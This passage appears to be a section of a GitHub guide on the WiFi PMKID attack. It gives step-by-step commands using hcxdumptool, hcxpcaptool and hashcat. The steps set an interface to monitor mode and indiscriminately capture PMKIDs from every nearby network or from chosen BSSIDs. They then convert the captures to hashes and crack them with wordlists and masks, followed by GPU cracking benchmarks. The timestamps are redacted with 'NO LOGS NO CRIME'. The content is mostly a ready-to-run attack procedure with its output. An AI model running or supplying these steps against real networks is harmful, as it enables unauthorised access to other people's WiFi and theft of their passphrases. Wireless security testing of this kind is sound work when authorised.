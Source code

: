 #### 5.1. References
```
https://github.com/ZerBea/hcxdumptool
https://github.com/ZerBea/hcxtools
https://github.com/hashcat/hashcat
https://hashcat.net/forum/thread-7717.html
```

#### 5.2. Collecting PMKIDs

Prerequisites: interface must be in monitor mode
```
# ifconfig wlan0 down && ifconfig wlan0 up
# iwconfig wlan0 mode monitor
```

1) *Wild Wild West* approach
```
# channels=1,2,3,4,5,6,7,8,9,10,11,12,13,14,32,34,36,38,40,42,44,46,48,50,52,54,56,58,60,62,64,68,96,100,102,104,106,108,110,112,114,116,118,120,122,124,126,128,132,134,136,138,140,142,144,149,151,153,155,157,159,161,165,169,173
# hcxdumptool -o WWW.pcapng -i wlan0 --enable_status=3 -c $channels
```
This will collect all PMKIDs from all available WiFi networks in the area of the device used for scanning.

2) Targeted
```
# cat /tmp/beef
DEADBEEF0001
DEADBEEF0002
DEADBEEF0003
DEADBEEF0004
# hcxdumptool -o beef.pcapng -i wlan0 -c 136,60,52,11 --enable_status=3 --filterlist=/tmp/beef --filtermode=2
...
[04:39:48 - 136] deadbeef0001 -> deadbeeffff1 [FOUND PMKID CLIENT-LESS]
[04:39:50 - 136] deadbeef0002 -> ffffffffffff CG-WLAN [PROBEREQUEST, SEQUENCE 2076]
[04:39:56 - 136] deadbeef0003 -> deadbeeffff2 [FOUND PMKID CLIENT-LESS]
[04:40:15 - 136] deadbeef0004 -> ffffffffffff lisy [PROBEREQUEST, SEQUENCE 517]
INFO: cha=136, rx=16166, rx(dropped)=541, tx=51, powned=2, err=0^C
terminated...
```
This will collect data only for specific BSSIDs (AP MAC address - can be for 2.4/5 GHz)


#### 5.3. Convert PMKID to WPA-PMKID-PBKDF2 hash
```
# hcxpcaptool -z beef.16800 beef.pcapng
...
EAPOL PMKIDs.................: 2

2 PMKID(s) written to beef.16800
# sort -u -k2,2 -t '*' beef.16800 > hashes.16800
```


#### 5.4. Cracking via `hashcat`
```
# hashcat -m 16800 hashes.16800 passwords.txt
# hashcat -m 16800 -a 3 hashes.16800 ?d?d?d?d?d?d?d?d?d?d
```


#### 5.5. Hashcat benchmarks

Performance per hash type: `WPA-PMKID-PBKDF2 ~ 1440 kH/s`

Hardware info:
```
OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: Tesla P100-PCIE-16GB, 4070/16280 MB allocatable, 56MCU
* Device #2: Tesla P100-PCIE-16GB, 4070/16280 MB allocatable, 56MCU
* Device #3: Tesla P100-PCIE-16GB, 4070/16280 MB allocatable, 56MCU
* Device #4: Tesla P100-PCIE-16GB, 4070/16280 MB allocatable, 56MCU
```

Test 1:
```
Time.Started.....: [NO LOGS NO CRIME] (1 min, 46 secs)
Time.Estimated...: [NO LOGS NO CRIME] (1 hour, 47 mins)
Guess.Mask.......: ?d?d?d?d?d?d?d?d?d?d [10]
Guess.Queue......: 1/1 (100.00%)
```

Test 2:
```
Time.Started.....: [NO LOGS NO CRIME] (2 mins, 34 secs)
Time.Estimated...: [NO LOGS NO CRIME] (8 days, 6 hours)
Guess.Mask.......: ?1?1?1?1?1?1?1?1?1?1 [10]
Guess.Charset....: -1 abcdef0123456789, -2 Undefined, -3 Undefined, -4 Undefined 
Guess.Queue......: 1/1 (100.00%)
```

Test 3:
```
Time.Started.....: [NO LOGS NO CRIME] (1 min, 13 secs)
Time.Estimated...: [NO LOGS NO CRIME] (1 day, 14 hours)
Guess.Mask.......: ?l?l?l?l?l?l?l?l [8]
Guess.Queue......: 1/1 (100.00%)
```

Test 4:
```
Time.Started.....: [NO LOGS NO CRIME] (59 secs)
Time.Estimated...: [NO LOGS NO CRIME] (4 mins, 54 secs)
Guess.Base.......: File (crackstation-human-only.txt)
Guess.Queue......: 1/1 (100.00%)
```
